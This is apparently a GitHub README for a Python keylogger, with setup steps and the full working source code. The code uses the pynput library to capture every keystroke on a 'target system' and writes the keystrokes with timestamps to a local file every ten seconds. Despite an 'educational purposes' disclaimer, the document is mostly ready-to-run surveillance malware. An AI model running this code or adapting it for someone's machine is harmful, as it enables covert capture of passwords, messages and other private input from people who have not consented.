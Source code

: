 # Keylogger Tool

## Overview

This keylogger tool captures and stores keystrokes on a target system. It records keystrokes and saves them to a local file (`keystrokes.txt`) for analysis. This tool is intended for educational purposes and should be used responsibly, complying with all applicable laws and regulations.

## Features

- Captures all keystrokes, including special keys (space, enter, tab).
- Logs keystrokes in batches to improve performance.
- Includes timestamps for each batch of keystrokes.
- Writes logs to a local file (`keystrokes.txt`).

## Prerequisites

- Python 3.7+
- `pynput` library

## Installation

1. **Clone the repository**:
    ```bash
    git clone https://github.com/paradoxing57/keylogger-tool.git
    cd keylogger-tool
    ```

2. **Create and activate a virtual environment** (optional but recommended):
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows use `venv\Scripts\activate`
    ```

3. **Install the required libraries**:
    ```bash
    pip install -r requirements.txt
    ```

## Usage

1. **Run the keylogger**:
    ```bash
    python enhanced_keylogger.py
    ```

2. **Stop the keylogger**:
    - The keylogger runs until the script is manually stopped (e.g., using `Ctrl+C` in the terminal).

3. **View the logs**:
    - The keystrokes are saved in `keystrokes.txt` in the same directory as the script.

## Code Explanation

The keylogger script captures keystrokes using the `pynput` library and logs them to a file. It processes keystrokes in batches to improve performance and includes robust error handling.

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

```python
import pynput.keyboard
import threading
from datetime import datetime

log = []
log_buffer_limit = 100  # Adjust the buffer limit as needed

def process_key_press(key):
    global log
    try:
        log.append(key.char)
    except AttributeError:
        if key == key.space:
            log.append(" ")
        elif key == key.enter:
            log.append("\n")
        elif key == key.tab:
            log.append("\t")
        else:
            log.append(f"[{str(key)}]")

def write_to_file():
    global log
    if log:
        with open("keystrokes.txt", "a") as file:
            file.write(f"{datetime.now()} - {''.join(log)}\n")
        log = []

def report():
    global log
    write_to_file()
    timer = threading.Timer(10, report)
    timer.start()

def main():
    keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press)
    with keyboard_listener:
        report()
        keyboard_listener.join()

if __name__ == "__main__":
    main()
